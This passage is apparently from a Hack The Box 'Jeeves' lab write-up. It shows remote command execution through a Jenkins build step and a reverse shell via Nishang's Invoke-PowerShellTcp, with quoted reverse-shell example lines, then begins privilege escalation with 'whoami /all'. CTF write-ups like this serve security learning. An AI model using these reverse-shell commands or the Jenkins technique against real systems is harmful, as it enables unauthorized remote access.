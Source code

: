 Select `Create New Jobs` from the dashboard.
![0d405945767dd2c6982012e51cf35e0b.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jeeves/ffe10e094abf412a96569ecea74f86aa.png)
Create a Freestyle Project

I configure, we can see **Build -> Add Build Step -> Execute Windows Batch Command**
![5875c8c6c6e766848eed939383199541.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jeeves/161eb4eb0be54960949561d89e274293.png)
Since we can schedule tasks, And we have command execution here.
Here I gonna use [Nishang](https://github.com/samratashok/nishang) to get reverse shell.

> Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security. By using this we can get the shell.

There is a lot of Shell I choose `nishang/Shells/Invoke-PowerShellTcp.ps1` and copied that to my directory.

If we look at the Shell it gives us some of the examples.

```bash
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on
the given IP and port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```

I copied one of the example and changed it to my IP and paste it in bottom of the file.
![18a3e6d578b7a31d0a0e6ae65c413d5d.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jeeves/33b27bc32a0647a782026bc6a32f5b38.png)


Started python server in my machine
![2090246c1648e0072a5346050e6fcecb.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jeeves/f2f5dd5fcbbe4845b163c07646942ef1.png)
Save

Now by clicking Build Now 
![ss.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jeeves/31b219b5af314a2497a41a3c8d9284a6.png)

Our Task will be executed and I got the shell.
![b7b92082e0f61b6fc72c4f484081a5b8.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jeeves/3e19455e84484e089d22f281d77bef13.png)




## Privilege Escalation

`whoami /all` will reveal the complete information about the user.

```ps
PS C:\Users\kohsuke\Desktop> whoami /all

USER INFORMATION
----------------

User Name      SID                                        
============== ===========================================
jeeves\kohsuke S-1-5-21-2851396806-8246019-2289784878-1001


GROUP INFORMATION
-----------------

```
